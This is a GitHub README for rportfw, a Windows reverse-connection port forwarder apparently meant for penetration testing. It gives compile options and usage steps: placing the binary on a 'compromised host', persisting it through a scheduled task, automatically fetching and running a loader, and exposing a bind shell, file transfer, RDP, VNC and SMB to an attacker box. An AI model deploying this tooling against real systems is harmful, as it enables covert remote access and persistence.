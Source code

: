 # rportfw (Remote Port Forward)

Remote port redirector by reverse connection with proxy support for Windows. Useful in pentesting.

## Features

* Reverse connection through proxy.
* Remote multi port forwarding through a single connection.
* Basic authentication.
* Encryption (optional, rc4).
* Compression (testing, zlib).
* Automatic execution of command associated to port when connecting.
* Includes starter tool loader.
* Includes auto-install function at startup (--install).

## Getting Started

These instructions will get you a copy of the project up and running on your local machine for development and testing purposes.

### Prerequisites

rportfw should compile/run on any Win32 (redirector) and UNIX/Linux box (client). You only need a relatively modern C compiler.

### Installing

Download a copy of the project from github:

```
$ git clone https://github.com/joseigbv/rportfw.git
```

#### rportfw 

Edit 'rportfw.c' and change configuration (optional):

```
#define PROXY_HOST "10.0.0.1" 
#define PROXY_PORT 8080
#define PROXY_AUTH "TVlET01cdXNyMToxMjM0"
```

Compile (E.g. MinGW or cross compiling):

```
C:\> gcc -Wall -s -Os rportfw.c -o rportfw -lwsock32 -DLOADER
```

Directives: 
* Run in background: -DDAEMON -mwindows
* Proxy support: -DPROXY
* Auto-download tools: -DLOADER
* Compression (miniz): -DCOMP
* Encrypt (rc4): -DCRYPT rc4.c 

#### linux client

Edit 'client.c' and change configuration (optional):


```
// puerto de escucha (client)
#define HOST "0.0.0.0"
#define PORT 443 

// contrasenia cifrado
#define SKEY "secret0"

// IP bind 
#define BIND_ADDR "127.0.0.1"

// path nsh y n2f
#define LOADER_PATH "loader.exe"

// puertos a redirigir? 
#define NUM_CHAN 7
#define SET_CHANNELS(chan) { \
\
        chan[0].port = 6666; \
        chan[0].flags = X_CRYPT; \
        chan[1].port = 6667; \
        chan[1].flags = X_CRYPT; \
        chan[2].port = 6668; \
        chan[2].flags = X_CRYPT; \
        chan[3].port = 6669; \
        chan[3].flags = 0; \
        chan[4].port = 5900; \
        chan[4].flags = X_CRYPT; \
        chan[5].port = 3389; \
        chan[5].flags = 0; \
        chan[6].port = 445; \
        chan[6].flags = 0; \
}

// debug ?
#ifdef DEBUG
#define VERBOSE 1
#else
#define VERBOSE 0
#endif
````

Compile: 

```
$ gcc -Wall -O2 client.c rc4.c -o client -lz -DLOADER -DCRYPT -DCOMP -DDEBUG
```

With 'upload.sh' you can build your set tools (loader.exe).

 
### Usage

Upload rportfw.exe to the compromised host (%TEMP%) and execute. For better resilience, create a scheduled task:

```
C:\TEMP> rportfw --install

```

In the linux hackbox, run: 

```
$ client 
``` 

When the compromised computer connects, it will get / execute 'loader.exe'. By default, it redirects several ports:

* 6666: micro bind shell
* 6667: redirect to upload.tmp file
* 6668: redirect from download.tmp file
* 6689: free
* 5900: redirect vnc server 
* 3389: redirect rdp 
* 445: redirect smb 

Now, you can connect for example to RDP: 

```
$ rdesktop localhost
```

## Authors

* **José Ignacio Bravo** - *Initial work* - nacho.bravo@gmail.com

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details

## Acknowledgments

* Christophe Devine - ARC4 algorithm implementation
* Rich Geldreich <richgel99@gmail.com> - miniz zlib-subset implementation
* Greg  Roelofs - unzipsfx.exe 



